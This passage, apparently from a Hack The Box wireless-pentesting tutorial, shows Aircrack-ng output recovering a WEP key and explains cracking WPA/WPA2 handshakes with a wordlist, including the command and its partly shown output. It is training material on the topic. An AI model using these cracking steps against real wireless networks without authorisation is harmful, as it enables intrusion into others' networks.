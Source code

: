 ```shell
Opening HTB.ivs
Read 567298 packets.

1 potential targets

                                             Aircrack-ng 1.6

                               [00:00:17] Tested 1741 keys (got 566693 IVs)

   KB    depth   byte(vote)
    0    0/  1   EB(  50) 11(  20) 71(  20) 0D(  12) 10(  12) 68(  12) 84(  12) 0A(   9)
    1    1/  2   C8(  31) BD(  18) F8(  17) E6(  16) 35(  15) 7A(  13) 7F(  13) 81(  13)
    2    0/  3   7F(  31) 74(  24) 54(  17) 1C(  13) 73(  13) 86(  12) 1B(  10) BF(  10)
    3    0/  1   3A( 148) EC(  20) EB(  16) FB(  13) 81(  12) D7(  12) ED(  12) F0(  12)
    4    0/  1   03( 140) 90(  31) 4A(  15) 8F(  14) E9(  13) AD(  12) 86(  10) DB(  10)
    5    0/  1   D0(  69) 04(  27) 60(  24) C8(  24) 26(  20) A1(  20) A0(  18) 4F(  17)
    6    0/  1   AF( 124) D4(  29) C8(  20) EE(  18) 3F(  12) 54(  12) 3C(  11) 90(  11)
    7    0/  1   DA( 168) 90(  24) 72(  22) F5(  21) 11(  20) F1(  20) 86(  17) FB(  16)
    8    0/  1   F6( 157) EE(  24) 66(  20) DA(  18) E0(  18) EA(  18) 82(  17) 11(  16)
    9    1/  2   7B(  44) E2(  30) 11(  27) DE(  23) A4(  20) 66(  19) E9(  18) 64(  17)
   10    1/  1   01(   0) 02(   0) 03(   0) 04(   0) 05(   0) 06(   0) 07(   0) 08(   0)

             KEY FOUND! [ EB:C8:7F:3A:03:D0:AF:DA:F6:8D:A5:E2:C7 ]
	Decrypted correctly: 100%

```

* * *

### Cracking WPA

Aircrack-ng has the capability to crack the WPA key once a "four-way handshake" has been captured using Airodump-ng. To crack WPA/WPA2 pre-shared keys, only a dictionary-based method can be employed, which necessitates the use of a wordlist containing potential passwords. A "four-way handshake" serves as the required input. For WPA handshakes, a complete handshake comprises four packets. However, Aircrack-ng can effectively operate with just two packets. Specifically, EAPOL packets 2 and 3, or packets 3 and 4, are considered a full handshake.

```shell
aircrack-ng HTB.pcap -w /opt/wordlist.txt

Reading packets, please wait...
Opening HTB.pcap
Read 1093 packets.

   #  BSSID              ESSID                     Encryption

   1  2D:0C:51:12:B2:33  HTB-Wireless              WPA (1 handshake, with PMKID)
   2  DA:28:A7:B7:30:84                            Unknown
   3  53:68:F7:B7:51:B9                            Unknown
   4  95:D1:46:23:5A:DD                            Unknown

Index number of target network ? 1

Reading packets, please wait...
Opening HTB.pcap
Read 1093 packets.

1 potential targets

                               Aircrack-ng 1.6

      [00:00:00] 802/14344392 keys tested (2345.32 k/s)

```